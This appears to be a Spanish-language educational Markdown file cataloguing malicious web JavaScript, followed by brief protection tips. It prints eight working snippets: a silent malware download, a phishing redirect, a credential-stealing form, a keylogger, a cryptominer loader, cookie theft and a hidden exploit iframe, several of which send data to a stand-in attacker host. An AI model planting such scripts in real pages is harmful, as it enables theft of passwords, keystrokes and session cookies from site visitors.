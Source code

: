 
# Ejemplos de Código Malicioso en JavaScript

Este archivo describe ejemplos de código malicioso que pueden encontrarse en sitios web, escritos en JavaScript. Su propósito es educativo, para aprender a identificar y prevenir estos ataques.

## **1. Inyección de Malware o Descarga Silenciosa**
Este ejemplo descarga automáticamente un archivo al dispositivo del usuario:

```javascript
<script>
  window.onload = function() {
    const a = document.createElement('a');
    a.href = 'http://malicious-site.com/malware.exe';
    a.download = 'malware.exe';
    document.body.appendChild(a);
    a.click();
    document.body.removeChild(a);
  };
</script>
```

---

## **2. Redirección Oculta**
Redirige automáticamente a otro sitio malicioso:

```javascript
<script>
  setTimeout(() => {
    window.location.href = "http://phishing-site.com/login";
  }, 2000);
</script>
```

---

## **3. Phishing para Captura de Credenciales**
Un formulario diseñado para robar credenciales del usuario:

```html
<form action="http://malicious-site.com/steal-passwords" method="POST">
  <label for="username">Usuario:</label>
  <input type="text" id="username" name="username">
  <label for="password">Contraseña:</label>
  <input type="password" id="password" name="password">
  <button type="submit">Iniciar Sesión</button>
</form>
```

---

## **4. Keylogger con JavaScript**
Captura las teclas presionadas y las envía al atacante:

```javascript
<script>
  document.addEventListener('keypress', function(event) {
    const keyData = event.key;
    fetch('http://malicious-site.com/log-keys', {
      method: 'POST',
      body: JSON.stringify({ key: keyData }),
      headers: { 'Content-Type': 'application/json' }
    });
  });
</script>
```

---

## **5. Cryptojacking**
Usa los recursos del dispositivo para minar criptomonedas sin permiso:

```javascript
<script src="http://malicious-site.com/crypto-miner.js"></script>
<script>
  const miner = new CryptoMiner('tu-clave-api');
  miner.start();
</script>
```

---

## **6. Ataque Cross-Site Scripting (XSS)**
Roba cookies de sesión del usuario:

```javascript
<script>
  fetch('http://malicious-site.com/steal-cookies', {
    method: 'POST',
    body: document.cookie
  });
</script>
```

---

## **7. Malware basado en iframes ocultos**
Carga contenido malicioso en segundo plano:

```html
<iframe src="http://malicious-site.com/exploit" style="display:none;"></iframe>
```

---

## **8. Script que Congela el Navegador**
Un bucle infinito que bloquea el navegador:

```javascript
<script>
  while (true) {
    console.log('Esto congelará el navegador');
  }
</script>
```

---

## **Cómo Protegerse**
1. **No accedas a sitios sospechosos.**
2. **Mantén tu sistema actualizado.**
3. **Usa extensiones de seguridad como NoScript o uBlock Origin.**
4. **Inspecciona el código fuente si algo parece sospechoso.**
5. **Evita descargar archivos de sitios desconocidos.**

---

> **Nota:** Este documento es solo con fines educativos. No se debe usar para actividades maliciosas.
